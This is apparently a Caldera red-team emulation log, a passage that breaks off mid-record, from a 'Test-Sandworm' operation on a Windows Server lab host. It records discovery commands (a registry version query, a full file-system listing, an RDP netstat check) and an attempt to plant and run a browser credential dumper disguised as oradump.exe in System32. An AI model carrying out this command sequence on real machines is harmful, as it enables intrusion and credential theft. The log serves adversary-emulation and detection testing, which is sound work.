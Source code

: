 ```
reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentBuild","delegated_timestamp":"2024-11-12T08:07:26Z","collected_timestamp":"2024-11-12T08:08:05Z","finished_timestamp":"2024-11-12T08:08:05Z","status":0,"platform":"windows","executor":"cmd","pid":2864,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"90cbd004-d5e9-4b05-9abe-12b93f77ede3","ability_name":"Sandworm Windows Discovery - Windows Version Info","ability_description":"Sandworm Team enumerates information about the infected system's operating system.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"System Information Discovery","technique_id":"T1082"},"output":{"stdout":"HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    ProductName    REG_SZ    Windows Server 2022 Standard EvaluationHKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    CurrentMajorVersionNumber    REG_DWORD    0xaHKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    CurrentMinorVersionNumber    REG_DWORD    0x0HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    CurrentBuild    REG_SZ    20348","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:08:05Z"},{"command":"dir /s /b C:\\ > dir.out","plaintext_command":"dir /s /b C:\\ > dir.out","delegated_timestamp":"2024-11-12T08:08:06Z","collected_timestamp":"2024-11-12T08:08:42Z","finished_timestamp":"2024-11-12T08:09:22Z","status":0,"platform":"windows","executor":"cmd","pid":5648,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"fa3ea4c1-c980-41b1-be78-c8c932d68e98","ability_name":"Sandworm Windows Discovery - List Entire File System","ability_description":"Sandworm Team has enumerated files on a compromised host.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"File and Directory Discovery","technique_id":"T1083"},"agent_reported_time":"2024-11-12T08:08:41Z"},{"command":"netstat -ano | findstr 3389","plaintext_command":"netstat -ano | findstr 3389","delegated_timestamp":"2024-11-12T08:09:26Z","collected_timestamp":"2024-11-12T08:09:32Z","finished_timestamp":"2024-11-12T08:09:32Z","status":1,"platform":"windows","executor":"cmd","pid":3760,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"73decaa1-5ba3-4739-812d-633929a158fd","ability_name":"Sandworm Windows Discovery - List RDP Connections","ability_description":"Sandworm Team had gathered user, IP address, and server data related to RDP sessions on a compromised host.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"System Network Connections Discovery","technique_id":"T1049"},"agent_reported_time":"2024-11-12T08:09:32Z"},{"command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","plaintext_command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","delegated_timestamp":"2024-11-12T08:09:37Z","collected_timestamp":"2024-11-12T08:10:34Z","finished_timestamp":"2024-11-12T08:10:34Z","status":1,"platform":"windows","executor":"cmd","pid":1200,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"9a438a2a-c95b-4fd2-a29f-8b1250fc3adc","ability_name":"Sandworm Download Web Credential Dumper","ability_description":"Sandworm downloads web credential dumper oradump.exe to disk.\noradump.exe is a variant of the open source tool, LaZagne.\nIt has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"","stderr":"The system cannot find the file specified.","exit_code":"1"},"agent_reported_time":"2024-11-12T08:10:33Z"},{"command":"C:\\Windows\\System32\\oradump.exe 2>&1","plaintext_command":"C:\\Windows\\System32\\oradump.exe 2>&1","delegated_timestamp":"2024-11-12T08:10:37Z","collected_timestamp":"2024-11-12T08:11:14Z","finished_timestamp":"2024-11-12T08:11:14Z","status":1,"platform":"windows","executor":"cmd","pid":4904,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe
```